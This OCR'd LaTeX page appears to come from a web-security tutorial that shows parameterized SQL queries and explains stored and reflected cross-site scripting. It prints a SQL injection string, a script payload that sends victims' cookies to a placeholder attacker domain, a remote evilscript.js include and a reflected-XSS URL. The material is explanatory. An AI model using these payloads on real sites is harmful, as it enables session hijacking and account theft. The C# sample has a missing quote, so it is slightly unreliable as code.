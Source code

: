 \documentclass[a4paper]{article}
\begin{document}
\begin{verbatim}
string username = "johnsmith";
string query = "SELECT * FROM Users WHERE Username=@param_username";
SqlCommand cmd = new SqlCommand(query);
cmd.Parameters.AddWithValue("@param_username, username);
\end{verbatim}

This way, if an attacker will send \texttt{login' OR '1'='1} to the application,
it will not cause any harm, because the query would simply try to find a user
with name \texttt{login' OR '1'='1}.

\subsection{Cross-Site Scripting (XSS)}

\subsubsection{How it works}

Cross-Site Scripting is closely related to injection as it works by injecting a
malicious code to the application. There are two categories of this attack:
stored and reflected. 

The first one occurs when injected code is stored permanently on the server. An
example could be a comment on a forum, which contains Javascript code. If the
vulnerability is present, it will not be displayed on the page, but it will be
executed. It could be simple like:

\begin{verbatim}
<script>document.createElement('img').src = 'http://attackerswebsite.com/' +
document.cookie</script>
\end{verbatim}

This script would create an HTTP request to attacker's website with the victim's
cookies, which could contain for example very useful session token. It is also
possible to include much bigger scripts with:

\begin{verbatim}
<script src="http://attackerswebsite.com/evilscript.js"></script>
\end{verbatim}

The reflected attack works by reflecting the injected code off the trusted
website.  For example, an attacker might send an URL with malicious code to the
victim, e.g:
\texttt{http://website.com/<script\%20src="http://attackerswebsite.com/
evilscript.js"></script>}. The URL itself is not dangerous, but the vulnerable
website might show an error message containing the URL, thus embedding it and
executing the injected script.
\end{document}
